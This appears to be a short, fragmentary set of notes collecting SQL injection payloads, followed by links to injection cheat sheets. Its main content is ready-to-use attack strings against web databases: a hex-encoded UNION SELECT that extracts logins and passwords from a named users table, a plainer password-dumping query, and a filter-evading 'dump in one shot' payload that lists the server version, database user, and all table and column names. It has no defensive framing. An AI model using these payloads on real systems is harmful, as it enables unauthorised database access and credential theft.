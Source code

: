 ' uNion sElect 0x2261646d696e2720556e694f6e2053656c65435420312c2047524f55505f434f4e434154286c6f67696e2c2720272c2070617373776f7264292046524f4d20635f776562736572766575725f34392e75736572732d2d202d22-- -

http://forum.sqliwiki.com/showthread.php?tid=82
https://github.com/unicornsasfuel/sqlite_sqli_cheat_sheet
http://thanat0s.trollprod.org/2013/01/sqlite-le-mal-aime-des-sqli/
https://www.owasp.org/index.php/Testing_for_SQL_Injection_%28OTG-INPVAL-005%29
https://websec.ca/kb/sql_injection
http://www.sqlinjectionwiki.com/Categories/2/mysql-sql-injection-cheat-sheet/#Gettinguserdefinedtables
http://securityidiots.com/Web-Pentest/SQL-Injection/routed_sql_injection.html



min' union select 1, GROUP_CONCAT(password, ' ') FROM users--


dios Do in one shot

pid=-42 union select 1,2,3,group_concat('Injected by maxo:::',version(),'<br>','user::',system_user(),'<br>','Database::',database(),'<br>',make_set(6,@:=0x0a,(/*!50000select*/(1) %66rom (/*!50000information_schema.columns*/)where table_schema!='information_schema'and@:=make_set(511,@,0x3c6c693e,/*!50000table_name*/,/*!50000column_name*/)),@)),5,6,7,8,9,10,11
